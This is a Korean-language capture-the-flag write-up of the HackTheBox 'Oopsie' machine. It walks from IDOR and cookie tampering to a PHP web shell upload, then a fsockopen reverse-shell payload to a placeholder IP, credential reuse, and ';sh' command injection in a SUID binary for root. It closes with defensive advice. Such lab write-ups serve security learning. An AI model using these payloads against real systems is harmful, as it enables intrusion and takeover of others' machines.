






+++
title = '[HTB] - Oopsie'
date = 2026-05-01T02:00:00+09:00
draft = false

categories = ["HTB", "pentesting"]
tags = ["HTB", "write-up", "IDOR", "OWSAP ZAP", "SUID", "Command Injection"]
description = "HackTheBox Oopsie 풀이 — Guest 로그인과 IDOR로 admin ID를 수집하고 쿠키를 변조해 웹쉘을 올린 뒤, DB 자격증명 재사용과 SUID 바이너리의 Command Injection을 엮어 root 권한까지 상승하는 Linux 공격 체인을 분석한다."
+++

# HTB - Oopsie (Retired Machine)

## Overview

| 항목 | 내용 |
|------|------|
| OS | Linux (Ubuntu) |
| 난이도 | Very Easy |
| 포트 | 22 (SSH), 80 (HTTP) |
| 공격 체인 | 웹 소스 분석 → Guest 로그인 → IDOR로 admin ID 수집 → 쿠키 변조 → 웹쉘 업로드 → 리버스 쉘 → DB 자격증명 → robert 전환 → SUID + Command Injection → root |

---

## 배경 지식

### IDOR (Insecure Direct Object Reference)

서버가 사용자 입력값(URL 파라미터, 쿠키 등)을 검증 없이 그대로 객체 참조에 사용할 때 발생하는 취약점이다.

```
/account.php?id=1   → 내 계정 정보
/account.php?id=2   → 다른 유저 계정 정보  ← 검증 없으면 그대로 노출
```

이번 머신에서는 두 군데에서 IDOR가 활용됐다.
1. `id` 파라미터 변조로 admin 계정 ID 수집
2. 쿠키의 `role`, `user` 값 변조로 admin 권한 획득

### SUID (Set User ID)

실행 파일에 SUID 비트가 설정되어 있으면, 파일을 실행하는 유저가 누구든 **파일 소유자의 권한으로 실행**된다.

```bash
ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 ...
   ↑
  's' = SUID 설정됨 → root 권한으로 실행
```

SUID가 설정된 바이너리가 사용자 입력을 검증 없이 시스템 명령에 넘기면 **Command Injection → root shell**로 이어진다.

### Command Injection

프로그램이 사용자 입력을 검증 없이 시스템 명령어에 포함시킬 때 발생한다.

```
정상: cat /root/reports/2
공격: cat /root/reports/;sh   ← ';' 이후 sh 실행
```

세미콜론(`;`)은 쉘에서 명령어 구분자로 동작하기 때문에 앞 명령이 실패해도 뒤 명령이 실행된다.

---

## 공격 체인 요약

```
nmap → 80 HTTP 확인
  → curl/ZAP으로 소스 분석 → /cdn-cgi/login 발견
    → Guest 로그인 → admin.php 접근
      → id 파라미터 IDOR → admin ID(34322) 수집
        → 쿠키 변조 (role=admin, user=34322)
          → 업로드 페이지 활성화 → 웹쉘 업로드
            → /uploads/sh.php → 리버스 쉘 획득
              → db.php에서 robert:M3g4C0rpUs3r! 발견
                → su robert
                  → bugtracker SUID + Command Injection
                    → root shell
```

---

## 정찰 (Enumeration)

### 포트 스캔

```bash
sudo nmap 10.129.125.22 -Pn -n --min-rate 3000
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 웹 서비스 분석

```bash
whatweb 10.129.125.22
# Apache/2.4.29 (Ubuntu), Email[admin@megacorp.com]

curl http://10.129.125.22 | grep -E 'href|script'
```

`whatweb` 결과에서 `admin@megacorp.com` 이메일 주소가 확인됐다. 이는 내부 서비스나 관리자 페이지가 존재할 가능성을 시사한다.

소스를 분석하자 `/cdn-cgi/login/script.js`를 참조하는 구문이 나왔다. 디렉터리 브루트포싱을 하지 않아도 소스 한 줄에서 로그인 경로를 바로 얻어낸 셈이다. OWASP ZAP 스파이더로도 동일하게 `/cdn-cgi/login`을 확인했다.

`/cdn-cgi/login` 소스를 확인하면 로그인 폼이 `index.php`로 POST 요청을 보내고, username과 password 필드를 사용한다는 것을 알 수 있다. 또한 **Login as Guest** 옵션이 존재한다는 점도 눈에 띈다. 별도의 자격증명 없이 내부에 진입할 수 있는 통로다.

---

## 취약점 분석 및 공격

### Guest 로그인 → admin 페이지 접근


**Login as Guest** 옵션으로 접속하면 `admin.php`로 이동한다. 상단에 Account, Branding, Upload 탭이 보이는데, Upload 탭을 클릭하면 "This action require super admin rights"라는 메시지가 뜬다. 파일 업로드 기능이 존재하지만 admin 권한이 있어야 쓸 수 있다는 의미다.


이때 개발자 도구에서 쿠키를 확인하면 핵심 단서가 보인다:



```
role=guest
user=2233
```

서버가 **세션이 아닌 쿠키의 평문 값으로 권한을 판단**하고 있다. `role`을 `admin`으로 바꾸기만 하면 될 것 같지만, 서버가 `user` ID도 함께 검증하기 때문에 admin의 실제 ID를 먼저 알아내야 한다.

### IDOR로 admin ID 수집

Account 탭에서 자신의 계정 정보를 보여주는 페이지로 이동하면 URL 구조가 드러난다:


```
/cdn-cgi/login/admin.php?content=accounts&id=2
```

`id` 파라미터가 그대로 노출되어 있다. 서버가 이 값을 검증 없이 DB 조회에 사용한다면 다른 계정 정보도 볼 수 있다. `id=1`부터 순서대로 바꿔보면:

```
id=1   → Access ID: 1,     Name: admin
```


Access ID 칼럼이 따로 존재한다. 여기서 admin의 Access ID는 `34322`임을 확인할 수 있다. URL의 `id`는 DB 내부 레코드 번호이고, 쿠키에 들어가야 하는 값은 이 Access ID다. 두 개념을 구분해서 읽어야 한다.

```
id=34322 → Access ID: 34322, Name: admin
```

### 쿠키 변조 → admin 권한 획득

admin의 Access ID를 손에 넣었으니 쿠키를 조작할 차례다. 브라우저 개발자도구 → Application → Cookies에서 두 값을 직접 수정한다:

```
role=admin
user=34322
```

서버는 매 요청마다 쿠키의 `role`과 `user` 값만 보고 권한을 결정하기 때문에, 페이지를 새로고침하는 것만으로 admin으로 인식된다. Upload 탭이 활성화되면서 파일 업로드 폼이 나타난다.



### 웹쉘 업로드 → 리버스 쉘

업로드 폼에 확장자 제한이 없다. `.php` 파일을 그대로 올릴 수 있다는 의미다. 간단한 웹쉘 하나면 충분하다:

```php
<?php system($_GET['cmd']); ?>
```

업로드 후 파일이 어디에 저장되는지 응답에서는 알려주지 않는다. 일반적인 컨벤션인 `/uploads`를 바로 시도했더니 접근이 됐다. 서버가 업로드 디렉터리에 실행 권한을 그대로 두고 있다는 뜻이다. 이 두 가지, 즉 **확장자 무검증**과 **업로드 디렉터리 실행 허용**이 겹쳐서 RCE가 성립한다.

```bash
# netcat 리스너 준비
nc -lvp 12345

# 웹쉘로 리버스 쉘 페이로드 전송
http://10.129.125.22/uploads/sh.php?cmd=php+-r+'$sock=fsockopen("MY_IP",12345);exec("/bin/sh+-i+0<%263+1>%263+2>%263");'
```

---

## Foothold

```bash
# 쉘 안정화
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@oopsie:/var/www/html/uploads$
```

www-data 권한으로는 할 수 있는 게 많지 않다. 우선 웹 루트에서 설정 파일이나 자격증명이 담긴 PHP 파일을 찾는 게 우선이다. 사이트가 PHP + DB 구조이기 때문에 DB 연결 설정 파일이 어딘가 있을 것이다.

```bash
grep -ri "passw" /var/www/html/cdn-cgi/login/ 2>/dev/null
```

또는 직접 탐색:

```bash
cat /var/www/html/cdn-cgi/login/db.php
```

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

DB 연결 정보가 소스코드에 평문으로 박혀 있다. `robert` 계정으로 `garage` DB에 접속한다는 것인데, 여기서 중요한 질문을 해야 한다 — **이 패스워드가 OS 계정에도 재사용되고 있진 않을까?**

`db.php`를 발견하고 자격증명을 꺼냈을 때, 이걸 바로 `su robert`로 연결짓지 못하고 시간을 쓴 게 아쉬운 부분이었다. DB 자격증명 파일을 발견하는 순간 OS 계정 재사용 시도는 반사적으로 나와야 하는 액션이다.

```
robert : M3g4C0rpUs3r!
```

---

## 권한 상승 (Privilege Escalation)

### robert 전환

```bash
su robert
# Password: M3g4C0rpUs3r!
```

성공했다. DB 연결용 패스워드와 OS 계정 패스워드가 동일했다. 개발자나 관리자가 편의상 같은 패스워드를 여러 곳에 쓰는 경우가 실제로도 많기 때문에, 어디서든 자격증명을 발견하면 다른 서비스·계정에 즉시 대입해보는 것이 원칙이다.

### bugtracker SUID 바이너리 분석

```bash
find / -type f -group bugtracker 2>/dev/null
# /usr/bin/bugtracker

ls -la /usr/bin/bugtracker
# -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

cat /etc/group | grep bugtracker
# bugtracker:x:1001:robert
```

- SUID 설정 → root 권한으로 실행
- robert가 bugtracker 그룹 소속 → 실행 권한 있음

bugtracker를 실행하면:

```
Provide Bug ID: 33
cat: /root/reports/33: No such file or directory
```

입력받은 Bug ID를 `cat /root/reports/<ID>` 형태로 실행하고 있다. 사용자 입력이 시스템 명령에 그대로 전달된다는 의미다.

### Command Injection → root shell

```bash
bugtracker
# Provide Bug ID: ;sh
```

실행되는 명령:
```
cat /root/reports/;sh
          ↑         ↑
     (실패해도 OK)  sh 실행
```

```bash
# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

EUID가 root인 쉘을 획득했다.

---

## Flags

```bash
cat /root/root.txt
cat /home/robert/user.txt
```

---

## 배운 것들

### 이번 머신의 핵심 깨달음

전체 공격 체인을 walk-through 없이 스스로 구성했다는 게 의미있었다. 특히 쿠키 기반 권한 관리의 취약점을 직접 식별하고, IDOR로 admin ID를 수집해서 연결하는 흐름을 스스로 잡은 게 잘 된 부분이다.

느렸던 구간은 두 곳이었다.

첫 번째는 `db.php` 발견 후 `su robert`로 바로 연결짓지 못한 것이다. 파일 자체를 찾는 건 어렵지 않았지만, 거기서 나온 패스워드를 OS 계정에 즉시 대입하는 생각을 못 했다. DB 접속 자격증명 = OS 계정 패스워드일 수 있다는 연결고리를 머릿속에 더 단단히 박아야 한다. 자격증명을 발견하는 순간 **"이게 어디에 또 쓰일 수 있을까?"** 를 반사적으로 물어보는 습관이 필요하다.

두 번째는 `bugtracker`에서 Command Injection 가능성을 확인하는 데 시간이 걸린 것이다. SUID 바이너리를 실행했을 때 에러 메시지에 `cat /root/reports/...` 경로가 그대로 노출됐는데, 이 출력이 바로 내부에서 `cat`을 호출하고 있다는 증거였다. 다음번엔 SUID 바이너리 실행 후 에러 메시지에서 시스템 명령 호출 흔적을 먼저 읽는 연습을 해야겠다.

### 공격 체인 각 요소 정리

| 요소 | 역할 |
|------|------|
| 소스 분석 (`curl \| grep`) | 숨겨진 경로(`/cdn-cgi/login`) 발견 |
| Guest 로그인 | 인증 없이 내부 페이지 접근 |
| IDOR (`id` 파라미터) | admin 계정 ID 수집 |
| 쿠키 변조 | Guest → admin 권한 상승 |
| 웹쉘 업로드 | RCE 획득 |
| `db.php` | 평문 자격증명 노출 |
| 자격증명 재사용 | DB 패스워드 → OS 계정 전환 |
| SUID + Command Injection | robert → root |

### 다음에 비슷한 상황을 만나면

- 웹 소스에서 `/cdn-cgi/`, `/admin/`, `/login/` 경로 참조 → 즉시 접근 시도
- 쿠키에 `role`, `user`, `id` 같은 값이 있으면 → 변조 시도
- URL `id` 파라미터 존재 → IDOR 시도 (1부터 순서대로 또는 의미있는 숫자)
- 웹쉘 업로드 성공 후 → `/uploads`, `/files`, `/tmp` 순서로 경로 추측
- foothold 후 → `find / -name "*.php" 2>/dev/null`로 설정 파일 탐색
- `find / -perm -4000 2>/dev/null`로 SUID 바이너리 목록 확인
- SUID 바이너리 실행 후 시스템 명령 호출 흔적 → Command Injection 시도

### 방어 관점 (Blue Team)

| 공격 벡터 | 방어 방법 |
|---------|---------|
| 쿠키 기반 권한 관리 | 서버 사이드 세션으로 권한 검증 |
| IDOR | 서버에서 현재 로그인 유저 기준으로 접근 권한 검증 |
| 파일 업로드 | 확장자 화이트리스트, 업로드 디렉터리 실행 권한 제거 |
| DB 자격증명 평문 저장 | 환경변수 또는 암호화된 설정 파일 사용 |
| 자격증명 재사용 | 서비스별 고유 패스워드 정책 |
| SUID 바이너리 Command Injection | 입력값 검증, 절대 경로 사용, SUID 최소화 |

---

## 관련 글

- [HTB - Vaccine](/posts/vaccine/) — 발견한 자격증명을 다른 서비스·OS 계정에 재사용하는 동일한 사고 패턴.
- [HTB - Sense](/posts/sense/) — 입력 미검증으로 인한 Command Injection을 root 권한 컨텍스트에서 트리거하는 사례.
- [HTB - Sau](/posts/sau/) — 파라미터 기반 Command Injection과 Linux 권한 상승 흐름.
